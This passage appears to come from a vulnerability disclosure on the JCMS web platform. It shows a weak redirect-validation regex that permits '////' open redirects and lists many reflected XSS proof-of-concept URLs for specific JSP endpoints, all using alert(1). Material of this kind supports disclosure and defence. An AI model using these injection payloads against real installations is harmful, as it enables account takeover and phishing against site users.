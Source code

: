 The default `channel.security.Validator.JCMSRedirectURL` regex is as follows: `^(?!(\/\\)|javascript:|(https?:((\\\\)|(\/\\)|(\\\/))))[^\n\r]*$`.  

It allows the use of `////`, which allows redirecting to `////google.com`.  
Additionally, we will see later that it is possible to bypass the verification to redirect to the `javascript:` protocol and perform an XSS!  

# Cross-Site Scripting (XSS)

Similarly, many XSS vulnerabilities were reported.  
Some require the `channel.security.csrf.enabled` parameter to be disabled to access certain files.  
The main vulnerable code uses a string from the `getUntrustedStringParameter` function mentioned earlier.  
Also, the `getRedirect` method of form handlers is mostly vulnerable because it does not sanitize the `redirect` field. This method is often called to populate an `<input>` tag: 

```html
<input type='hidden' name='redirect' value='<%= formHandler.getRedirect() %>' />
```

## Reflected XSS

### Pre-Auth
- `/work/dbrecordChooser.jsp?ds=jdbc/opcvm&targetUrl=%3C%2Fscript%3E%3Cimg%2Fsrc%2Fonerror%3Dalert%281%29%3E (*Should have valid jdbc*)`
- `/work/popupImportCatList.jsp?redirect=a'><img/src/onerror=alert(1)>`
- `/work/popupImportCatList.jsp?pid=a'><img/src/onerror=alert(1)>`
- `/work/workspace/editWorkspaceInstanceWorkflow.jsp?typeName=generated.Article&wsId=j_4'"><img/src/onerror=alert(1)>`
- `/work/pdfUploadModal.jsp?redirect=</script><img/src/onerror=alert(1)>`
- `/work/pdfUploadModal.jsp?redirect="-alert()-"`

### Pre-Auth + *channel.security.csrf.enabled = false*
- `/jcore/modal/warning.jsp?msg=<img/src/onerror=alert(1)>`
- `/jcore/modal/prompt.jsp?msg=<img/src/onerror=alert(1)>`
- `/jcore/modal/confirm.jsp?msg=<img/src/onerror=alert(1)>`
- `/jcore/modal/confirm.jsp?confirmTitle=<img/src/onerror=alert(1)>`
- `/jcore/modal/iframe.jsp?url="></iframe><img/src/onerror=alert(1)>`
- `/jcore/modal/alert.jsp?msg=<img/src/onerror=alert(1)>`
- `/work/wysiwygPreview.jsp?targetInputId=wysiwygConfigurationSample&html=%3Ca%20href%3DJa%26Tab%3Bvascript%26colon%3Balert%28%29%3ECLICK%20HERE`

### Auth
- `/jcore/pubchooser/pubChooserItems.jsp?itemAction="><img/src/onerror=alert(1)>`
- `/work/chooser/memberChooser.jsp?&targetUrl=%27%7D%3B%3C%2Fscript%3E%3Cimg%2Fsrc%2Fonerror%3Dalert%281%29%3E`
- `/work/caddy/caddyPopin.jsp?elmIds=1&1cadQueryString=A&1cadCss="><img/src/onerror=alert(1)>`
- `/work/caddy/caddyPopin.jsp?elmIds=1&1cadQueryString=A&1cadIcon="><img/src/onerror=alert(1)>`

